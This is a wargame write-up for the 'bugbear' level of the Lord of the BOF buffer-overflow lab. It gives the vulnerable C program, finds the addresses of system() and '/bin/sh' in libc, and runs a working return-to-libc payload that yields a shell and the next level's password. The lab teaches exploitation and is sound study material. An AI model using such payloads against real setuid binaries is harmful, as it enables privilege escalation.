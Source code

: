 ```yaml
---
title: "[LOB]Level13. bugbear"
tags: [Wargame, LOB, Write-up]
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : RTL1

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

분기문을 통해 RET 부분에 덮여씌워지는 주소 앞주소'\xbf'를 필터링 한다.

즉, '\xbf'로 시작하는 주소를 리턴 주소로 할 수 없다.

##### payload 시나리오 :

"A"*44+"&system()"+"A"*4+"&["/bin/sh"]

```sh
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
	
[darkknight@localhost darkknight]$ strings -tx /lib/libc.so.6 | grep "/bin/sh"
  e3ff9 /bin/sh
  e6587 /bin/sh
  e6595 /bin/sh
  e796a /bin/sh
  e81c7 /bin/sh
  e8778 /bin/sh
```

&system : 0x40058ae0

&"/bin/sh" : 0x400fbff9

```sh
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@AAAA�@
bash$ my-pass
euid = 513
new divide
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```



**bugbear / new divide**